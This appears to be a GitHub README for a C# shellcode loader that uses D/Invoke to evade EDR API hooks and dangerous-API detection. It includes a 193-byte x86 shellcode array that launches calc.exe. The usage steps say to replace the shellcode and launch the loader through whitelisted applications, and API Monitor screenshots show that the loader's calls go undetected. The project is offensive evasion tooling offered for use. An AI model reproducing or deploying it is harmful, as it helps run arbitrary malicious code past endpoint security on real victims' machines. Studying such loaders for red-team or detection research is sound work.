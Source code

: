 # DInvoke_shellcodeload_CSharp



Blog link: May not gonna update.

* A ShellcodeLoader base on my another project(https://github.com/Kara-4search/Simple_ShellCodeLoader_CSharp), inspire by TheWover(https://github.com/TheWover).
* The purpose is to bypass EDR 's APIs hook, or danger APIs dectection.
* Use D/Invoke to load shellcode into memory.
* **I removed a lot of unnecessary code from the original project, make the code easy for understanding.**
* You could change the function name or do other magic works make it better for EDR bypassing.
* I only tested it on x86 with the shellcode below(It is a calc shellcode), but it should be able to work on x64.

  ```c#
  byte[] codepent = new byte[193] {
                  	0xfc,0xe8,0x82,0x00,0x00,0x00,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,0x30,
                  0x8b,0x52,0x0c,0x8b,0x52,0x14,0x8b,0x72,0x28,0x0f,0xb7,0x4a,0x26,0x31,0xff,
                  0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0xc1,0xcf,0x0d,0x01,0xc7,0xe2,0xf2,0x52,
                  0x57,0x8b,0x52,0x10,0x8b,0x4a,0x3c,0x8b,0x4c,0x11,0x78,0xe3,0x48,0x01,0xd1,
                  0x51,0x8b,0x59,0x20,0x01,0xd3,0x8b,0x49,0x18,0xe3,0x3a,0x49,0x8b,0x34,0x8b,
                  0x01,0xd6,0x31,0xff,0xac,0xc1,0xcf,0x0d,0x01,0xc7,0x38,0xe0,0x75,0xf6,0x03,
                  0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe4,0x58,0x8b,0x58,0x24,0x01,0xd3,0x66,0x8b,
                  0x0c,0x4b,0x8b,0x58,0x1c,0x01,0xd3,0x8b,0x04,0x8b,0x01,0xd0,0x89,0x44,0x24,
                  0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x5f,0x5f,0x5a,0x8b,0x12,0xeb,
                  0x8d,0x5d,0x6a,0x01,0x8d,0x85,0xb2,0x00,0x00,0x00,0x50,0x68,0x31,0x8b,0x6f,
                  0x87,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x68,0xa6,0x95,0xbd,0x9d,0xff,0xd5,
                  0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,0x72,0x6f,0x6a,
                0x00,0x53,0xff,0xd5,0x63,0x61,0x6c,0x63,0x2e,0x65,0x78,0x65,0x00
  };
  ```

* You could use API monitor(http://www.rohitab.com/apimonitor) to test the project, comparing with the SimpleLoader(https://github.com/Kara-4search/Simple_ShellCodeLoader_CSharp), You could see there is no API call via D/Invoke.
* Kernel functions are not good enough，you could even do the ntdll version of this.


## Usage

1. Just replace the shellcode.
2. Launch it through some white list applications


## Comparing via API monitor

There are mainly 3 APIs we are gonna monitor:

* VirtualAlloc
* CreateThread
* WaitForSingleObject

  
1. You could see the picture below, the SimpleLoader' s API call caught by API monitor.
   ![avatar](https://raw.githubusercontent.com/Kara-4search/tempPic/main/APIMon-Result1.png)

2. And the **DInvoke ShellcodeLoader**'s API call was not caught by API monitor.
   ![avatar](https://raw.githubusercontent.com/Kara-4search/tempPic/main/APIMon-Result2.png)


## Reference link:

1. https://github.com/CCob/SharpBlock
2. https://ethicalchaos.dev/2020/05/27/lets-create-an-edr-and-bypass-it-part-1/
3. https://ethicalchaos.dev/2020/06/14/lets-create-an-edr-and-bypass-it-part-2/
4. https://thewover.github.io/Dynamic-Invoke/
5. https://offensivedefence.co.uk/posts/dinvoke-syscalls/
6. https://github.com/TheWover/DInvoke
7. http://www.rohitab.com/discuss/topic/38807-api-monitor-v2-r10-release-instant-monitoring-without-definitions-support-for-dllmain-and-early-apis-windows-8/
8. https://vimeo.com/566964438
9. https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread
10. https://docs.microsoft.com/en-us/dotnet/api/microsoft.visualstudio.shell.interop.vsdebugstartupinfo.dwcreationflags?view=visualstudiosdk-2019

